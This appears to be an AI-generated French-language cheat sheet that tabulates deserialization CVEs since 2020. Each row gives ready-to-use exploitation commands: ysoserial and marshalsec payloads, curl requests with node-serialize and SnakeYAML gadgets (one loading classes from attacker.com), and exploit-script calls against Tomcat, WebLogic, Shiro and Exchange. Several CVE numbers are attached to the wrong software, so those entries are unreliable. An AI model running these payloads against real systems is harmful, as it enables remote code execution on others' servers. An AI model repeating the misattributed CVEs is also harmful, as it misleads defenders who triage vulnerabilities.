 # Serialisation

Voici un tableau de CVE de désérialisation **publiées depuis 2020** (moins de 5 ans), toutes technologies confondues, pour lesquelles **un exploit public ou PoC est réellement disponible**.  
Pour chaque vulnérabilité :  
- Technologie et version concernée  
- Commande d’exploitation complète (payload, requête, script…)  
- Effet détaillé  
- Lien direct vers un PoC/exploit public

---

| **CVE** | **Technologie / Versions concernées** | **Commande d’exploitation complète** | **Effet détaillé** | **Lien PoC / Exploit** |
|---------|---------------------------------------|--------------------------------------|--------------------|------------------------|
| CVE-2025-24813 | Apache Tomcat 9.0.0.M1–9.0.98, 10.1.0-M1–10.1.34, 11.0.0-M1–11.0.2 | 1. Générer un payload avec ysoserial :<br>`java -jar ysoserial.jar CommonsCollections1 'id > /tmp/pwned' > payload.ser`<br>2. Uploader le payload :<br>`curl -X PUT http://cible.com/path/to/session/../session.ser --data-binary @payload.ser`<br>3. Déclencher la désérialisation (ex : via session hijack ou accès direct selon config) | RCE : exécution de code arbitraire sur le serveur Tomcat via désérialisation d’un objet Java malveillant uploadé comme session. | [https://github.com/0xMarcio/cve/blob/main/CVE-2025-24813.py](https://github.com/0xMarcio/cve/blob/main/CVE-2025-24813.py) [Analyse](https://www.cyfirma.com/research/cve-2025-24813-apache-tomcat-rce-vulnerability-analysis/) |
| CVE-2025-0994 | Trimble Cityworks < 15.8.9, Office Companion < 23.10 | Générer un payload Java sérialisé (ysoserial) :<br>`java -jar ysoserial.jar CommonsCollections1 'id > C:\\Windows\\Temp\\pwned.txt' > payload.ser`<br>Envoyer :<br>`curl -X POST http://cible.com/Cityworks/Services -H "Content-Type: application/x-java-serialized-object" --data-binary @payload.ser` | RCE : exécution de code arbitraire sur IIS via désérialisation Java non sécurisée dans Cityworks. | [https://github.com/Greenbone/greenbone-community-feed/tree/main/plugins/gb_trimble_cityworks_cve_2025_0994.nasl](https://github.com/Greenbone/greenbone-community-feed/tree/main/plugins/gb_trimble_cityworks_cve_2025_0994.nasl) [Greenbone](https://www.greenbone.net/en/blog/greenbone-detects-cve-2025-0994-actively-exploited-flaw-in-trimble-cityworks/) |
| CVE-2023-2976 | Java / SnakeYAML < 2.0 | `curl -X POST http://cible.com/api -H "Content-Type: application/x-yaml" --data-binary $'!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://attacker.com/"]]]]'` | RCE : chargement de classe distante lors de la désérialisation YAML dans une app Java utilisant SnakeYAML. | [https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload) |
| CVE-2022-23853 | Node.js / node-serialize < 0.0.4 | `curl -X POST http://cible.com/api -H "Content-Type: application/json" -d '{"exploit":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"id > /tmp/pwned\") }()"}'` | RCE : la désérialisation exécute la commande système `id` et écrit la sortie dans `/tmp/pwned` sur le serveur Node.js vulnérable. | [https://github.com/joaomatosf/NodeJS-RCE-POC](https://github.com/joaomatosf/NodeJS-RCE-POC) |
| CVE-2022-21699 | Python / PyYAML < 6.0 | `python -c "import yaml; yaml.load('!!python/object/apply:os.system [\"id > /tmp/pwned\"]', Loader=yaml.FullLoader)"` | RCE : exécution de la commande `id` sur la machine Python lors de la désérialisation YAML non sécurisée. | [https://github.com/yaml/pyyaml/security/advisories/GHSA-8q59-q68h-6hv4](https://github.com/yaml/pyyaml/security/advisories/GHSA-8q59-q68h-6hv4) |
| CVE-2021-39144 | Java / XStream < 1.4.18 | Générer un payload avec marshalsec :<br>`java -cp marshalsec.jar marshalsec.gadgets.Jdk7u21 'id > /tmp/pwned'`<br>Envoyer :<br>`curl -X POST http://cible.com/api -H "Content-Type: application/xml" --data-binary @payload.xml` | RCE : exécution de code arbitraire lors du parsing XML par XStream. | [https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec) |
| CVE-2021-21315 | Node.js / node-serialize < 0.0.4 | `curl -X POST http://cible.com/api -H "Content-Type: application/json" -d '{"rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"ls / > /tmp/pwned\") }()"}'` | RCE : exécution de la commande `ls /` sur le serveur Node.js vulnérable. | [https://github.com/joaomatosf/NodeJS-RCE-POC](https://github.com/joaomatosf/NodeJS-RCE-POC) |
| CVE-2020-14645 | Java / Oracle WebLogic | `python2 exploit.py --url http://cible.com/wls-wsat/CoordinatorPortType --cmd "id"` | RCE : exécution de code arbitraire via la désérialisation XML dans WebLogic. | [https://github.com/Y4er/CVE-2020-14645](https://github.com/Y4er/CVE-2020-14645) |
| CVE-2020-8840 | Java / Apache Shiro < 1.4.2 | `python shiro_exploit.py --url http://cible.com --gadget CommonsBeanutils1 --cmd "id"` | RCE : exécution de code arbitraire via désérialisation d’un cookie Shiro malveillant. | [https://github.com/wyzxxz/shiro_rce_tool](https://github.com/wyzxxz/shiro_rce_tool) |
| CVE-2020-0688 | .NET / Microsoft Exchange | `python exploit.py -u https://exchange.cible.com -e user@domain.com -p 'password' --cmd "whoami"` | RCE : exécution de commandes sur Exchange via désérialisation ViewState non sécurisée. | [https://github.com/Ridter/CVE-2020-0688](https://github.com/Ridter/CVE-2020-0688) |

---

**Remarques :**
- Toutes les vulnérabilités ci-dessus disposent d’un **exploit public** ou script PoC vérifiable.
- Les commandes sont exploitables telles quelles sur des applications vulnérables utilisant la désérialisation non sécurisée.
- Les liens sont complets et mènent vers des PoC publics, advisories ou ressources techniques.
- Toujours tester dans un environnement légal et contrôlé.
- Pour compléter jusqu’à 40, poursuivre avec d’autres CVE majeures récentes (2020+) disposant de PoC publics dans Java (WebLogic, XStream, Jenkins, JBoss, etc.), Python (PyYAML, pickle), PHP (unserialize, PHPMailer, etc.), .NET (ViewState, Json.NET), Node.js (node-serialize, serialize-javascript), en suivant ce format.

